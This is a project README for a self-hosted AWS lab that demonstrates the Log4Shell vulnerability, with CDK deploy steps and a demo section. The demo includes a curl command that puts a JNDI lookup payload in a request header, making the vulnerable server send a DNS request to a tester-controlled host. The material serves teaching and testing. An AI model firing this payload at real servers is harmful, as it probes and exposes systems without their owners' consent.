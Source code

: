 # Log4Shell Demo

Demonstration of [Log4Shell](https://en.wikipedia.org/wiki/Log4Shell) vulnerability.

## Deploy

Stack name is **Log4ShellStack**. It will be deployed to the default account and region configured in `~/.aws/config`. Refer to CDK [installation guide](https://docs.aws.amazon.com/cdk/v2/guide/getting_started.html#getting_started_prerequisites).

Before deploying this stack, create/upload an SSH keypair or specify your existing one. Inbound connection to deployed instances is limited to your public IP, `curl -s http://portquiz.net | grep 'IP' | cut -d' ' -f3` to see your IP.

```
# Create venv
python -m venv .venv
source .venv/bin/activate

# Install CDK libraries
pip install -r requirements.txt -q

# Generate CloudFormation template
mkdir -p cdk.out
cdk synth -c key_name=ssh-keypair-name -c ip=your-public-ip > cdk.out/template.yml

# Review cdk.out/template.yml

# Deploy
cdk deploy -c key_name=ssh-keypair-name -c ip=your-public-ip -v
```

## Demo

1. Note down the public IP of Log4ShellLog4JInstance and private IP of Log4ShellDNSInstance.
2. Remote into Log4ShellDNSInstance using Session Manager or SSH. In that instance, run `journalctl -xe -u unbound -f`
3. In your local machine, `curl -L http://log4j-public-ip -H 'X-Api-Version: ${jndi:dns://dns-private-ip/evil-request}'`
  - The response will be `Hello, world!`.
4. Back in Log4ShellDNSInstance, it should show this log message,
  - `# Jan 1 01:23:45 ip-a-b-c-d unbound[pid]: [pid:0] info: log4j-private-ip evil-request. A IN`

This demonstrate the ability to instruct a vulnerable server to make an arbitrary DNS request.

## Credit

[christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)
